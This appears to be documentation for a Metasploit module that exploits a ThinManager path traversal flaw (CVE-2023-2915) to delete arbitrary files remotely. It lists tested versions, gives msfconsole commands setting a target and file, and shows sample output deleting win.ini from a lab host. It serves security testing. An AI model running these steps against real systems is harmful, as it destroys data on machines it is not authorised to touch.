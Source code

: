 ## Vulnerable Application

This module exploits a path traversal vulnerability in ThinManager <= v13.1.0 (CVE-2023-2915) to delete an arbitrary file from the
system.

The affected service listens by default on TCP port 2031 and runs in the context of NT AUTHORITY\SYSTEM.

## Testing

The software can be obtained from
[the vendor](https://thinmanager.com/downloads/).

**Successfully tested on**

- ThinManager v13.1.0 on Windows 22H2
- ThinManager v13.0.1 on Windows 22H2
- ThinManager v13.0.0 on Windows 22H2
- ThinManager v12.1.5 on Windows 22H2
- ThinManager v10.0.2 on Windows 22H2

## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf > use auxiliary/gather/thinmanager_traversal_delete
msf auxiliary(gather/thinmanager_traversal_delete) > set RHOSTS <IP>
msf auxiliary(gather/thinmanager_traversal_delete) > set FILE <file to delete>
msf auxiliary(gather/thinmanager_traversal_delete) > run
```

This should delete the file as specified through FILE from the remote server.

## Options

### FILE
The file to delete from the remote server.

## Scenarios

Running the exploit against ThinManager v13.0.1 on Windows 22H2 should result in an output similar to the following:

```
msf auxiliary(gather/thinmanager_traversal_delete) > run
[*] Running module against 192.168.137.229

[*] 192.168.137.229:2031 - Running automatic check ("set AutoCheck false" to disable)
[!] 192.168.137.229:2031 - The service is running, but could not be validated.
[*] 192.168.137.229:2031 - Sending handshake...
[*] 192.168.137.229:2031 - Received handshake response.
[*] 192.168.137.229:2031 - Deleting /Windows/win.ini from 192.168.137.229
[+] 192.168.137.229:2031 - Received response from target.
[*] Auxiliary module execution completed
```
